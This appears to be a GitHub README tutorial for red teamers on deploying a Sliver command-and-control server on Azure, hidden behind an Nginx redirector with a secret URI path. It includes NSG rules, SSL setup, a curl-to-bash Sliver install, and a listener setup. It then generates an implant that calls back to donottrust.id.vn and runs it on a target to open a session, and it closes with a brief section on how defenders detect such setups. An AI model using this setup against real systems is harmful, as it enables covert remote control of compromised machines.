

<h1 align="center">Sliver C2 Simple Server Deployment Guide</h1>

<p align="center">
<pre>
 ██████  ██      ██ ██    ██ ███████ ██████  
██       ██      ██ ██    ██ ██      ██   ██ 
 █████   ██      ██ ██    ██ █████   ██████  
     ██  ██      ██  ██  ██  ██      ██   ██ 
██████   ███████ ██   ████   ███████ ██   ██ 
</pre>
  <b><i>">> Stealthy C2 Infrastructure on Azure <<"</i></b>
</p>

<p align="center">
  
  
  
</p>

<blockquote>
  <b>"As a Red Teamer, you must know how to build your own C2 infrastructure. If you're a newcomer, follow the guide below to get started."</b>
</blockquote>

---

## Minimum System Requirements
Based on standard Red Team operations:

* **Redirector**: At least **1 vCPU** and **1GB RAM**.
* **C2 Server**: At least **2 vCPUs** and **2GB RAM**.

---

## Network Architecture & Security Posture

<p align="center">
  
</p>

The infrastructure is designed with a **Tier-2 Stealth Model**, ensuring the C2 backend remains completely invisible to the public internet.

### 1. Firewall Configuration (NSG Rules)
We implement a strict **Allow-by-Exception** policy. All "Allow" rules must have a priority **under 1000**.

#### **A. Redirector (Frontend)**
| Direction | Port | Source | Action |
| :--- | :--- | :--- | :--- |
| Inbound | `80`, `443` | Anywhere | **Allow** |
| Inbound | `22` | Admin Client IP | **Allow** |
| Outbound | `8443` | C2 Private IP | **Allow** |

#### **B. C2 Server (Isolated Backend)**
| Direction | Port | Source | Action |
| :--- | :--- | :--- | :--- |
| Inbound | `80`, `443`, `8443`, `22` | Redir Private IP | **Allow** |
| Outbound | `80`, `443`, `8443`, `22` | Redir Private IP | **Allow** |
| **Any** | **Any** | **Anywhere** | **Deny (Priority 1000)** |

---

<h2> Phase 1: Accessing the Infrastructure</h2>

<p>Securely connect to your Azure instances using the private key provided during provisioning.</p>

> [!WARNING]
> **Key Management:** Azure provides the private key only **once**. Keep it safe!

<p><b>1. Set Secure Key Permissions</b></p>

```bash
chmod 400 your-private-key.pem
```
<p><b>2. Establish SSH Connection</b></p>
<p>Run the following command to access your Redirector instance:</p>

```bash
ssh -i <your-private-key.pem> <user>@<redirector-ip>
```
<h2>🚀 Phase 2: Environment Setup & SSL Configuration</h2>

<p>Once connected, the first priority is to update the system and install the necessary dependencies for the reverse proxy and SSL management.</p>

<p><b>1. Update System & Install Dependencies</b></p>
<p>Run these commands to ensure your Redirector is up-to-date and equipped with Nginx, Certbot, and Network Tools:</p>

```bash
# Update and upgrade the system
sudo apt update && sudo apt upgrade -y

# Install required tools
sudo apt-get install -y nginx certbot net-tools
```

<p><b>2. Provision SSL Certificate with Certbot</b></p>
<p>Before proceeding, ensure your domain's <b>A Record</b> is already pointed to your Redirector's Public IP. We need to stop Nginx temporarily to allow Certbot to use port 80 for verification.</p>

```bash
# Stop Nginx to free up port 80
sudo systemctl stop nginx

# Request a standalone SSL certificate
sudo certbot certonly --standalone --register-unsafely-without-email -d YOUR_DOMAIN.COM
```

> [!IMPORTANT]
> **Certbot Interaction:**
> * When prompted for the authentication method, **press 1** (Spin up a temporary webserver).
> * When asked to agree to the terms of service, **type 'yes'** and press Enter.

<p><b>3. Verification</b></p>
<p>After successful execution, your certificates will be stored in <code>/etc/letsencrypt/live/YOUR_DOMAIN.COM/</code>. These will be used later to encrypt your C2 traffic via Nginx.</p>
<h2>🛡️ Phase 3: Hardening the Redirector with Nginx</h2>

<p>In this phase, we will configure Nginx to act as a stealthy reverse proxy. This ensures that the backend C2 server remains hidden, only responding to requests that hit a specific "Secret Path".</p>

<p><b>1. Clean and Configure the Default Site</b></p>
<p>We will replace the default Nginx configuration with our custom proxy logic. Use <code>nano</code> to edit the file:</p>

```bash
# Open the default config file
sudo nano /etc/nginx/sites-available/default
```

> [!TIP]
> **Nano Tip:** Inside the editor, you can press `Ctrl + K` repeatedly to delete lines quickly until the file is empty, then paste the new configuration.

<p><b>2. Apply the Reverse Proxy Logic</b></p>
<p>Paste the following configuration into the file. This setup listens on port <b>8443</b> and utilizes the SSL certificates we generated earlier:</p>

```nginx
server {
    listen 8443 ssl;
    server_name donottrust.id.vn;

    # SSL Certificates (Certbot)
    ssl_certificate /etc/letsencrypt/live/donottrust.id.vn/fullchain.pem;
    ssl_certificate_key /etc/letsencrypt/live/donottrust.id.vn/privkey.pem;

    root /var/www/html;
    index index.html index.htm index.nginx-debian.html;

    # Stealth Logic: Only forward traffic hitting the Secret Path
    location /<your_random_path> {
        proxy_pass https://<c2_private_ip>:8443;
        proxy_ssl_verify off; # Backend uses self-signed/internal SSL
        
        # Header Forwarding
        proxy_set_header Host $host;
        proxy_set_header X-Real-IP $remote_addr;
        proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
        proxy_set_header X-Forwarded-Proto $scheme;
    }
}
```

<p><b>3. Verify and Restart</b></p>
<p>Always check your syntax before restarting the service to avoid breaking the redirector:</p>

```bash
# Test Nginx syntax
sudo nginx -t

# If successful, restart Nginx
sudo systemctl restart nginx
```

---

<h2>🔍 Defensive Insight (SOC Perspective)</h2>

<p>As a Red Teamer or future SOC Analyst, it is crucial to understand how this infrastructure is detected by defenders:</p>

<ul>
  <li><b>Anomalous Ports:</b> While port 443 is common, seeing high volumes of encrypted traffic on port <b>8443</b> to a newly registered domain (like <code>.id.vn</code>) often triggers alerts in SIEM systems.</li>
  <li><b>URI Pattern Analysis:</b> Defenders can identify "Secret Paths" by analyzing web logs for high-entropy URI strings that do not correspond to known web assets.</li>
  <li><b>SSL Certificate Fingerprinting:</b> Security tools (like JARM) can fingerprint the Nginx/SSL configuration to identify known C2 redirection patterns.</li>
</ul>

<hr>
<h2> Phase 4: C2 Server Provisioning & Sliver Installation</h2>

<p>Since the C2 server has no Public IP, we will use the Redirector as a jump box. This phase covers transferring access keys and installing the Sliver framework.</p>

<h3>1. Transferring the C2 Private Key</h3>
<p>To SSH from the Redirector to the C2 server, you need the C2's private key on the Redirector instance. Use <code>cat</code> on your local machine to copy the content, then <code>nano</code> on the Redirector to save it:</p>

```bash
# On your LOCAL machine:
cat <c2-private-key>.pem

# Then, on the REDIRECTOR via SSH:
nano ~/c2-internal.pem
# [Paste the content here, Save and Exit]

# Set correct permissions
chmod 400 ~/c2-internal.pem
```

<h3>2. Enabling Temporary Internet Access</h3>
<p>By default, our C2 server is isolated (Deny All Outbound). You must <b>temporarily disable or delete</b> the Outbound Deny rule in the Azure NSG to allow the server to download the Sliver binary.</p>

> [!WARNING]
> **OPSEC Alert:** Ensure you re-enable the "Deny All" rule (Priority 1000) immediately after the installation is complete to restore the isolation of your C2 backend.

<h3>3. Installing Sliver C2</h3>
<p>SSH into your C2 server from the Redirector using its private IP, then run the one-liner installation script:</p>

```bash
# SSH into C2 from Redirector
ssh -i ~/c2-internal.pem azureuser@<C2_PRIVATE_IP>

# Download and Install Sliver
curl -s [https://sliver.sh/install](https://sliver.sh/install) | sudo bash
```

<p><b>Verification:</b> Once installed, type <code>sliver</code> in the terminal. You should see the Sliver C2 shell logo.</p>


---

<h2>  Phase 5: Creating the HTTPS Listener</h2>

<p>To match our Nginx configuration (Port 8443), we must start an HTTPS listener within Sliver:</p>

```bash
# Inside the sliver shell
https --website donottrust.id.vn --lport 8443
```

<hr>
<h2> Phase 5: Security Re-enforcement & Smoke Test</h2>

<p>After installing Sliver, we must restore the network isolation and verify that the Redirector is correctly masking our C2 server.</p>

<h3>1. Re-enabling the "Killswitch" Rule</h3>
<p>Go back to your Azure Portal -> Network Security Group (NSG) for the C2 Server and re-enable the <b>Outbound Deny All</b> rule (Priority 1000).</p>

> [!CAUTION]
> **Mandatory Step:** Do not skip this. Your C2 server must not have direct outbound access to the internet to prevent discovery and maintain OPSEC.

<h3>2. The "Smoke Test" (Connectivity Check)</h3>
<p>Before generating the implant, verify that your Redirector is visible and serving the Nginx default page on the custom port.</p>

<ul>
    <li><b>Test URL:</b> <code>https://donottrust.id.vn:8443/</code></li>
    <li><b>Expected Result:</b> If you see the <b>"Welcome to nginx!"</b> page, your Redirector is successfully listening and SSL is working.</li>
</ul>

---

<h2> Phase 6: Generating the "One-Shot" Implant</h2>

<p>To ensure the beacon connects successfully through the Nginx proxy, we must embed the <b>Secret Path</b> and <b>Domain</b> directly into the payload.</p>

<h3>1. Generate the Implant</h3>
<p>Run the following command inside the Sliver shell. This configuration ensures the traffic mimics legitimate HTTPS and hits the specific Nginx location we configured:</p>

```bash
# Generate a Linux implant (example)
# Replace <your_random_path> with the one used in Nginx config
generate --http donottrust.id.vn:8443/<your_random_path> --save ~/implant.bin
```

<h3>2. Execution & Callback</h3>
<p>Transfer the <code>implant.bin</code> to your target machine and execute it. If everything is configured correctly, you will see a session opening in Sliver:</p>

```bash
# On the target machine
chmod +x implant.bin
./implant.bin

# Back in Sliver
sessions
```

> [!TIP]
> **Pro Tip:** By using the path <code>donottrust.id.vn:8443/<your_random_path></code>, Sliver automatically handles the URI routing through Nginx, ensuring your traffic is never dropped by the proxy's "Secret Path" filter.

---

<p align="center">
  
</p>

<hr>
<p align="center">
  <i>Finalized by <b>Nguyen Dang Khoa</b> - SGU Cybersecurity Research</i>
</p>
